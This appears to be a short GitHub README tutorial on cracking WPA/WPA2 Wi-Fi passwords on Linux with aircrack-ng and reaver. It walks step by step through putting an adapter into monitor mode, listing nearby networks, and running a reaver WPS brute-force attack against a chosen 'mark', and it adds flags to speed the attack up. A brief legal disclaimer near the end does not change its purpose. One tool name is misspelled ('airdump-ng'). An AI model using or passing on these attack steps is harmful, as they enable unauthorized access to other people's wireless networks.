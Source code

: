 # How to crack wpa/wpa2 passwords with linux (tested on ubuntu and Elementary OS)

In order to crack wifi passwords with linux you need to install __aircrack-ng__ and __reaver__.

How to isntall aircrack-ng: www.aircrack-ng.org/install.html

Downloading reaver: http://code.google.com/p/reaver-wps/downloads/list

You might also need to install on you computer __libpcap-dev__ and __libsqlite3-dev__, in order to do that just type the following lines in the terminal:
```
$ sudo apt-get install libpcap-dev
```
AND
```
$ sudo apt-get install libsqlite3-dev
```

## Now, Lets start the attack

#### if the next lines of code does not work, all you need to do is to type sudo in front of each one

1. Firstly, disconnect yourself from any wifi networks and type this code:
```
$ airmon-ng start wlan0
```

2. Next you need to put your wifi adapter into monitor mode, which will list all available wifi signals around you.
```
$ airdump-ng mon0
```
Once airdump list all availble wifi signals around, you can move to the next step, the actual attack.

3.After you decide who is you mark, just write this command with the marks` mac adress in order to start the attack.
```
$ reaver -i mon0 -b 00:11:22:33:44:55 -vv
```

## Cracking wifi passwords can be against the law in your country. You should not do this at all!

##TRICKS:

1. Speading the attack
```
$ reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```
OR
```
$ reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```
